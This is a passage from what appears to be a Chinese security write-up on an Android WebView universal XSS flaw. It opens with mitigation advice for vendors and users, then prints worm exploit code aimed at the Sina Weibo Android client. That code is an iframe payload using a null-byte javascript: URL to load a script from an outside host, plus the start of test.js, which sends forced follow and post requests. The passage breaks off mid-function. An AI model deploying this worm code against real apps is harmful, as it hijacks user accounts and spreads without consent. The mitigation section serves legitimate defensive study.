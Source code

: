 ## 0x04 建议

厂商（仅供参考）：

1、服务端禁止iframe嵌套`X-FRAME-OPTIONS:DENY`。详见：http://drops.wooyun.org/papers/104

2、客户端使用`setAllowFileAccess(flase)`方法禁止webview访问本地域。详见：[setAllowFileAccess(boolean)](http://developer.android.com/intl/zh-cn/reference/android/webkit/WebSettings.html#setAllowFileAccess(boolean))

3、客户端使用`onPageStarted (WebView view, String url, Bitmap favicon)`方法在跳转钱进行跨域判断。详见<a href="http://developer.android.com/intl/zh-cn/reference/android/webkit/WebViewClient.html#onPageStarted(android.webkit.WebView, java.lang.String, android.graphics.Bitmap)">onPageStarted (WebView view, String url, Bitmap favicon)</a>

4、客户端对iframe object标签属性进行过滤。

用户：

1、使用漏洞较少的app，及时更新app。

2、不要随意打开一些莫名其妙的链接。

3、有钱你就买新手机吧，android L马上出来了。

## 0x05 利用

1、 [WooYun: 扫描新浪微博安卓客户端UXSS附蠕虫利用](http://www.wooyun.org/bugs/wooyun-2014-079471) 蠕虫代码如下：

test.html

```javascript
<iframe name="m" src="http://m.weibo.cn/xxx" onload="window.open('\u0000javascript:window.s%3Ddocument.createElement%28%27script%27%29%3Bwindow.s.src%3D%27http://site/test.js%27%3Bdocument.body.appendChild%28window.s%29%3B','m')" >
```
test.js

```javascript
url = 'http://m.weibo.cn/attentionDeal/addAttention?';

url2 = 'http://m.weibo.cn/mblogDeal/addAMblog?rl=1';

function createXHR(){

    return window.XMLHttpRequest?

    new XMLHttpRequest():

    new ActiveXObject("Microsoft.XMLHTTP");

}





function post(url,data,sync){

    xmlHttp = createXHR();

    xmlHttp.open("POST",url,sync);

    xmlHttp.setRequestHeader("Accept","text/html, application/xhtml+xml, */*");

    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");

    xmlHttp.send(data);

```